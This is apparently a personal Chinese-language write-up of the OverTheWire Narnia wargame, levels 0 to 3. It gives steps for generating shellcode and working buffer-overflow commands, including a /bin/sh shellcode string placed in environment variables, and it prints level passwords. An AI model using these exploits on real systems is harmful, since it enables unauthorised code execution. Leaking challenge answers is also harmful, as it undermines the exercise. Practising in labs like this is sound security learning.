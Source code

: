 wargame-narnia
==============
* ssh addr: narnia0@narnia.labs.overthewire.org
* url: http://overthewire.org/wargames/narnia/

> --[ Tips ]--
>
> This machine has a 64bit processor and many security-features enabled
> by default, although ASLR has been switched off. The following compiler flags
> might be interesting:

> *   -m32                    compile for 32bit
> *   -fno-stack-protector    disable ProPolice
> *   -Wl,-z,norelro          disable relro
> 
> In addition, the execstack tool can be used to flag the stack as executable
> on ELF binaries.
>
> Finally, network-access is limited for most levels by a local firewall.

## 测试 shellcode:

[shellcodetest.c](./shellcodetest.c)

gcc -fno-stack-protector -z execstack -m32  shellcodetest.c -o shellcodetest 

## 生成 shellcode

1. 写出 xxx.asm
2. `nasm -f elf32 xxx.asm -o xxx.o`
3. `ld -m elf_i386 -o xxx xxx.o`
4. `objdump -d xxx` 从输出中获得 shellcode
   当然也可以写个工具提取
5. 考虑一下让`.text`段可写? `objcopy --writable-text -O elf32-i386 xxx xxx1`
   似乎没有作用...

## 更改的系统值存档

* `/proc/sys/kernel/randomize_va_space` = 2

#### narnia0

flag: narnia0

#### narnia1

flag: efeidiedae

[narnia0.c](./narnia0.c)

需要覆盖`val`变量, 注意管道关闭后程序也会随着关闭因此需要用 `cat`
继续向程序传递内容

    $ (python -c "print('aaaaaaaaaaaaaaaaaaaa\xef\xbe\xad\xde')"; cat) | /narnia/narnia0
    # 进入 sh 后执行
    $ cat /etc/narnia_pass/narnia1

#### narnia2

flag: nairiepecu

[narnia1.c](./narnia1.c)

程序直接把环境变量 `$EGG` 的内容当成函数执行了，所以要在 `$EGG` 中插入程序。

这次需要真正的 shellcode 了, shellcode 见 `shell.asm`, 将生成的 shellcode 导入
EGG 变量, 直接执行 `./narnia2` 即可.

shellcode: [shell.asm](./shell.asm)

    $ export EGG=$(python -c "print('\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x58\x41\x41\x41\x41\x42\x42\x42\x42')")
    $ ./narnia1

#### narnia3

[narnia2.c](./narnia2.c)

查看环境变量地址: `(gdb) x/s *((char **)environ + 1)`，
结果 `0xffffd8a1:     "XDG_SESSION_ID=76296"`

    $ export XDG_SESSION_ID=$(python -c "print('\xeb\x16\x5b\x31\xc0\x88\x43\x07\x89\x5b\x08\x89\x43\x0c\xb0\x0b\x8d\x4b\x08\x8d\x53\x0c\xcd\x80\xe8\xe5\xff\xff\xff\x2f\x62\x69\x6e\x2f\x73\x68\x58\x41\x41\x41\x41\x42\x42\x42\x42')")
    ./narnia2 $(python -c "print('a' * 140 + '\x55\xd8\xff\xff')")

